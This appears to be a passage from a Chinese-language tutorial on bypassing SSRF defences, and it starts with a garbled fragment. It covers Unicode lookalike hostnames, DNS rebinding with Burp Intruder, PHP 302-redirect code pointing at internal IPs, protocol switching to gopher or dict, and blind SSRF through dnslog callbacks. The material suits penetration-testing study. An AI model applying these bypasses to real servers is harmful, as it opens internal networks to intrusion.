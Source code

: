 ⓔⓧⓐⓜⓟⓛⓔ.ⓒⓞⓜ >>> example.com ①②⑦. ⓪.⓪.①>>> 127.0.0.1  
#### 7、DNS重绑定:  
  
一般进行 ssrf 防御的模式如下：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ZS0VQrDMfGpgdLZh8uSaic8kQneU3LuG17ZjF8ofy026JiczMNp4QlwyccRz3lBNIJIrBob0gr34aAzcMCH5cdew/640?wx_fmt=png "")  
  
1. 获取到输入的URL，从该URL中提取host  
  
对该host进行DNS解析，获取到解析的IP  
  
1. 访问规则判断该IP是否在指定范围内（即判断IP是否符合规则）  
  
如果IP在范围内，即对此URL发起请求  
  
如果IP不在范围内，则请求失败  
  
然而访问规则在判段得到的IP为指定范围内IP，到服务端请求URL这个中间还存在一个细微的时间差，  
  
DNS重绑定则是利用这一点，让服务器第一次解析host的ip为符合规则的公网IP，在第二次请求解析URL时host的ip又变为了不符合规则的内网IP，从而进行ssrf。  
  
这里推荐使用burpsuite的intruder模块，来批量发送请求，以利用时间差完成ssrf。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ZS0VQrDMfGpgdLZh8uSaic8kQneU3LuG1NuRXkQgKS6ruNMlH2MdoFiabmxK9wwTbpsYDysCm4JcrV5d1f8w06Sg/640?wx_fmt=png "")  
  
  
在线DNS重绑定平台：https://lock.cmpxchg8b.com/rebinder.html  
#### 8、302重定向：  
  
需要一个vps，把302转换的代码部署到vps上，然后去访问，就可跳转到内网中  
  
服务端代码如下：  
```
<?php 
header("Location: http://192.168.1.10");
exit(); 
?>
```  
#### 9、绕过localhost:  
```
```  
### 协议限制绕过:  
  
如禁用了部分协议，尝试转换使用协议;  
```
http(s)、file、dict、gopher、（sftp、ldap、tftp）
```  
## ssrf - 漏洞案例  
#### 导入/导出型ssrf（无回显）  
  
漏洞原理：在导入/上传图片、数据等内容时时将图片链接换成dnslog链接，服务器则在请求资源时会访问dnslog链接  
  
Vps 设置 302 跳转 访问内网  
```
302.php 
<?php
header("HTTP/1.1 302 found"); 
header("Location:http://10.x.x.x:5001/index?host=dnslog.requestrepo.com"); 
exit(); 
?>
```  
  